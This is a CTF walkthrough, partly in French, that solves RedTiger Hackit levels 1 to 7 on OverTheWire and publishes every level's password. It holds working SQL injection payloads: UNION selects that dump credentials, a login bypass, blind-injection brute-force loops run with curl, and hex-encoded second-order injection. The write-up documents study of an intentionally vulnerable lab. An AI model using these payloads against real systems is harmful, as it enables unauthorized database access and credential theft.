 RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

##Level 1 : Simple SQL-Injection
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
  You made it dude!

  The password for the next level is: easylevelsareeasy_! 
   
##Level 2 : Simple login-bypass
```
username : a' OR '1'='1
password : a' OR '1'='1
```
  The password for the next level is: securitycat_says_meow_and_likes_cheese 
  
##Level 3 : Get an error

  Génération de l'erreur :
```
https://redtiger.labs.overthewire.org/level3.php?usr%5B0%5D=a&usr%5B1%5D=b
```
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

```PHP
<?php
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ 192;
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s^192;
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```
on le stocke dans un fichier php auquel on ajoute 
```php
echo encrypt($argv[1]);
```

plus qu'à trouver le nombre de champs et afficher le mot de passe 
```
curl --insecure -b level3login=securitycat_says_meow_and_likes_cheese https://redtigire.org/level3.php?usr=`php toto.php "' union select 1,username,3,4,5,password,7 from level3_users where username='Admin "` 
```
 Login correct. You are admin :); 
 The password for the next level is: dont_publish_solutions_GRR! 
 
##Level 4 : Blind Injection
   Identification de la taille du mot à trouver
```nix
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C10
=> 2 rows
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C20
=> 1 row ==> taille entre 10 et 20 caractères
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29=17
=> mot de 17 caractères

on devine maintenant le mot
for i in {1..17}; do
	for x in {a..z}; do 
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done
manque les derniers caractères :-(

for i in {14..17}; do
	for x in {0..9}; do
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done

==> blindinjection123
```
 Word correct. 
 The password for the next level is: bananas_are_not_yellow-sometimes

##Level 5 : Advanced login-bypass
```nix
echo -n toto | md5sum
f71dbe52628a3f83a77ab494817525c6  -

login : ' union 'pouet', 'f71dbe52628a3f83a77ab494817525c6
passwd : f71dbe52628a3f83a77ab494817525c6
```
  Login successful!
  
  The password for the next level is: my_cat_says_meow_meowmeow 
  
##Level 6 : SQL-Injection
```nix
https://redtiger.labs.overthewire.org/level6.php?user=0%20or%20status=1
==> 
Username: 	admin
Email: 	admin@localhost
1er user avec status=1 est admin

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,username,1,1,1%20from%20level6_users%20where%20status=1
==> username est utilisé pour une seconde requête

pour injecter dans la seconde requête, on encode en hexadécimal (équivalent de HEX() sql mais désactivé pour l'exercice)
echo -n "' union select 1,2,3,4,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
==> 2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> On obtient les n° de champs
Username: 	2
Email: 	4

echo -n "' union select 1,username,3,password,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
ttps://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> on obtient le mot de pase
Username: 	admin
Email: 	m0nsterk1ll
```
 Login correct. 
 The password for the next level is: dont_shout_at_your_disks*** 
 
##Level 7 : SQL-Injection
  On valide le formulaire de recherche avec dans le champ de saisie la chaine bidon'
  On obtient la requête utilisée :
```SQL
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%bidon'%' OR text.title LIKE '%bidon'%')
```
La recherche suivante nous indique la taille du nom de l'auteur :
```SQL
google%' and length(news.autor)=17 and '%'='
```
Compte tenu des limitations SQL, on recherche les caractères composant le nom avec LOCATE :
```nix
for i in {1..17}; do
for x in `echo {A..Z} {a..z} {0..9}`; do 
	curl -s --insecure -b level7login=dont_shout_at_your_disks%2A%2A%2A https://redtiger.labs.overthewire.org/level7.php -d "dosearch=search\!&search=google%' and locate('$x',news.autor,$i)=1 and '%'='" | grep "FRANCISCO"
	rc=$?
	
	
	if [[ $rc == 0 ]] ; then

		echo "found : $x"
		break;
	
	fi
done
done
```
==> TESTUSERFORG00GLE
PB : pas de distinction majuscules/minuscules avec LOCATE :'-(
utilisation de locate('$x',news.autor COLLATE latin1_general_cs,$i)=$i
==> TestUserforg00gle
 User correct.

The password for the next level is: MOOcowMEOWcatOinkPIG 

##Level 8 : SQL-Injection
##Level 9 : SQL-Injection
##Level 10
